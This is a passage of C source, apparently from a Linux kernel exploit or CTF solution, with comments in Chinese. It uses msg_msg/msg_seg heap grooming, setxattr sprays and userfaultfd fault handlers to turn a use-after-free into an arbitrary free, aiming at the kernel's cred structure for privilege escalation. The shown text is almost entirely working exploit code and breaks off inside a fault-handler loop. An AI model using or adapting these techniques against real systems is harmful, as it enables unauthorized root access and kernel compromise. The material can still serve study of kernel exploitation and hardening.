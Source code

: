 ```c
    memset(buffer, 0, 0x5000);
    msg->mtype = 1;
    if (msgsnd(t_msg, buffer, 0x40 - 0x30, 0) < 0)
    {
        err_exit("msgsnd temp");
    }

    /* 利用UAF obj任意地址释放msg_seg Q1,其地址已知 */
    info("Arb freeing with msg_Seg Q1...");
    memset(buffer, 0, 0x5000);
    buffer[0] = buffer[1] = msg1_q1 + 0x1000; // makes it valid
    buffer[2] = 1;
    buffer[3] = 0x40 - 0x30; // just original size, to prevent slab_hardened_freelist
    buffer[4] = msg1_q1;
    setxattr("/exploit", "ltfall", buffer, 0x40, 0);

    memset(buffer, 0, 0x5000);
    res = msgrcv(msg_id[0], buffer, 0x40 - 0x30, 1, 0);
    if (res != 0x10)
    {
        err_exit("msgrcv Q0");
    }

    /* 申请新msg_msg, 使得已知地址的msg_seg -> target, 这里 target 选为 cred 结构体 */
    info("Allocating new msg_msg...");
    msg_id[3] = msgget(IPC_PRIVATE, IPC_CREAT | 0666);
    msg = (struct msg_buf *)((size_t)pwn_addr2 + 0x30);
    msg->mtype = 1;

    // 到这里就会去执行 uffd2
    if(msgsnd(msg_id[3], msg, 0x1000 - 0x30 + 0x80 - 8, 0) < 0){
        err_exit("msgsnd 3");
    }
    
    return NULL;
}

void *uffd_handler1(void *args)
{
    struct uffd_msg msg;
    int fault_cnt = 0;
    long uffd;

    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    uffd = (long)args;

    for (;;)
    {
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        if (nready == -1)
        {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

```